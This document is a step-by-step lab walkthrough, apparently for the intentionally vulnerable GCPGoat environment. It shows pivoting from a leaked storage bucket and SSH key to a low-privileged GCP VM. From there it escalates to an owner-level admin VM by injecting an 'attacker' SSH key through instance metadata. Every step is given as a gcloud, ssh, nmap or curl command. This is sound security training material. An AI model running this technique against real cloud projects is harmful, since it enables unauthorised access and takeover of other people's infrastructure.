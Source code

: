 In this Part 02 of the lab, we will use the credentials of a low-privileged virtual machine (VM) that we found in the dev bucket. We'll use these credentials to pivot and access higher-privileged compute instances via the low-privileged machine.


### Phase 1: Reconnaissance and Initial Access

#### 1. Explore the Compromised Development Bucket

First, list the contents of the development bucket that was compromised in the previous lab:

  

```bash

gsutil ls -r gs://<DEV_BUCKET_NAME>/

```

![Development bucket contents showing config.txt file](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-01.png)


Note the interesting file **config.txt** in the `.ssh` directory. This could contain sensitive information.


#### 2. Retrieve and Analyze Configuration Files

Access the config.txt file from the bucket:

```bash

gsutil cat gs://<DEV_BUCKET_NAME>/shared/files/.ssh/config.txt

# OR via direct HTTPS access

curl https://storage.googleapis.com/<DEV_BUCKET_NAME>/shared/files/.ssh/config.txt

```

![Config file showing IP addresses and user information](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-02.png)

The file contains multiple IP addresses, usernames, and paths to SSH keys.

#### 3. Identify Active Hosts

Scan the IP addresses found in the config file to determine which hosts are accessible:

```bash

nmap <IP_ADDRESS> -Pn

```

![Nmap scan results showing open port 22](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-03.png)

One of the IP addresses will have port 22 (SSH) open. From the config file, we can identify this as the instance associated with user **justin**.


#### 4. Retrieve SSH Key

Download the SSH private key for justin:

```bash

wget https://storage.googleapis.com/<DEV_BUCKET_NAME>/shared/files/.ssh/keys/justin.pem

chmod 400 justin.pem  # Set appropriate permissions

```

![Downloaded SSH key with proper permissions](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-04.png)

### Phase 2: Initial VM Access and Reconnaissance

#### 5. Connect to the Low-Privileged VM

Use the SSH key to access the VM:

```bash

ssh -i justin.pem justin@<IP_ADDRESS>

```

![Successful SSH connection to the VM](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-05.png)

#### 6. Gather Project Information

Check the VM's service account and project information: 

```bash

gcloud config list

``` 

![gcloud config showing project and account information](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-06.png)


This VM is using the default compute service account, which typically has **Editor** level access but might be restricted by access scopes.

#### 7. Check Service Account Access Scopes

Examine the access scopes applied to the VM:

```bash

curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes \

    -H 'Metadata-Flavor:Google'

```
 

![Service account scopes showing compute and storage access](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-07.png)

The VM has full access to compute services and read access to storage buckets.
 

### Phase 3: Discovery of High-Value Targets  

#### 8. Enumerate Compute Instances

List all compute instances in the project:
 

```bash

gcloud compute instances list

```
  

![List of compute instances showing admin-vm](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-08.png)  

We've identified another VM named **admin-vm**. Note the public IP address for this instance. 

### Phase 4: Privilege Escalation via Metadata Modification 

#### 9. Generate New SSH Key Pair

Create a new SSH key for accessing the admin VM:
 

```bash

ssh-keygen -t rsa -C "attacker" -f ./key -P ""

```
 

![SSH key generation output](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-09.png)

This creates a public key (key.pub) and private key (key) for a user named "attacker".

#### 10. Prepare Metadata Update File


Create a metadata file with the new SSH key:
 

```bash

NEWKEY="$(cat ./key.pub)"

echo "attacker:$NEWKEY" > ./meta.txt

cat ./meta.txt  # Verify the contents

```


![Content of meta.txt file showing SSH key](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-10.png)


#### 11. Update the Admin VM's Metadata


Add the SSH key to the admin VM's metadata:  

```bash

gcloud compute instances add-metadata admin-vm --metadata-from-file ssh-keys=meta.txt

```  

![Adding metadata to the admin VM](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-11.png) 

If prompted, confirm the zone selection. 

#### 12. Verify Metadata Update

Confirm the metadata was successfully updated:
 

```bash

gcloud compute instances describe admin-vm --zone us-west1-c

```

![Instance description showing updated SSH keys](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-12.png)
 

The SSH key for user "attacker" should now be visible in the metadata.
 

### Phase 5: Accessing the High-Privileged VM  

#### 13. Connect to the Admin VM 

Use the newly created SSH key to access the admin VM:
 

```bash

ssh -i ./key attacker@<ADMIN_VM_IP>

```  

![Successfully connected to admin VM](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-13.png)

You now have access to the admin VM. By default, users added through instance metadata have sudo privileges.  

#### 14. Examine Service Account Privileges 

Check the project and service account information:

```bash

gcloud config list

```

![Admin VM service account information](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-14.png)

The admin VM is using a service account named **admin-service-account**.

#### 15. Examine IAM Policies

Check the permissions assigned to this service account:

```bash

gcloud projects get-iam-policy <PROJECT_ID>

```


![IAM policy showing owner role](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-15.png)

The admin service account has the **owner** role on the project, which grants full administrative access.

#### 16. Verify API Access Scopes
 

Check the access scopes for the admin VM:

```bash

curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes \

    -H 'Metadata-Flavor:Google'

```

![Scopes showing cloud-platform access](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-16.png)


The VM has the **cloud-platform** scope, which provides full API access to all Google Cloud services.

### Alternative Method for Admin VM Access

#### 17. Direct SSH from Developer VM

You can also use the gcloud command to directly SSH to the admin VM:


```bash

gcloud compute ssh admin-vm

```

![Direct SSH access to admin VM](GCPGoat%20Screenshots/GCPGoat-Lab03/GCPGoat-Lab03-17.png)
